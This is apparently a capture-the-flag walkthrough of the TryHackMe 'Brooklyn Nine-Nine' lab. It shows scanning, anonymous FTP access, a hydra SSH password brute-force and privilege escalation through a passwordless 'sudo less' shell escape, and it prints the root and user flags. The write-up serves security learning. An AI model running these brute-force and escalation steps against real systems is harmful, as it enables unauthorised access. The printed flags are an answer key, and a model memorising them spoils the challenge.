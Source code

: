 # Overview
https://tryhackme.com/room/brooklynninenine

## NMAP
```
mkdir nmap
nmap -sC -sV -oN nmap/initial $IP
```

## Gobuster
```
gobuster dir -u "http://$IP" -w $WORDLIST -x php,txt,html | tee gobuster.log
```

## FTP
We can see the FTP port was left open, lets see whats on there:
```
jakeholl@Jakes-MacBook-Pro Downloads % ftp 10.10.4.48
Connected to 10.10.4.48.
220 (vsFTPd 3.0.3)
Name (10.10.4.48:jakeholl): anonymous
331 Please specify the password.
Password:
230 Login successful.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
WARNING! 5 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
119 bytes received in 0.000537 seconds (216 kbytes/s)
ftp> quit
221 Goodbye.
```
Downloaded the file, we find a username, `jake` and maybe `amy`

## hyra
For finding passwords
```
hydra -l jake -P /opt/rockyou.txt ssh://$IP
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2020-12-04 21:08:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.4.48:22/
[22][ssh] host: 10.10.4.48   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2020-12-04 21:08:55
```

# linpeas!
```
scp linpeas jake@$IP:/tmp
```
We can see the following users:
```
[+] Last time logon each user
Username         Port     From             Latest
amy              pts/1    10.10.10.18      Mon May 18 10:23:27 +0000 2020
holt             pts/0    10.10.10.18      Tue May 26 08:59:00 +0000 2020
jake             pts/0    10.2.44.85       Fri Dec  4 21:12:00 +0000 2020
```

Also this:
```
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

Trying `sudo -l`
```
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

Ok, now let's use [GTFOBins](https://gtfobins.github.io/gtfobins/less/) for a shell:
```
jake@brookly_nine_nine:~$ sudo less /etc/profile
# whoami
root
# ls
# ls /root
root.txt
# cat /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
#
```

Now that we have shell, let's try to find the user flag:
```
# ls /home
amy  holt  jake
# ls /home/amy
# ls /home/holt
nano.save  user.txt
# cat /home/holt/user.txt
ee11cbb19052e40b07aac0ca060c23ee
#
```
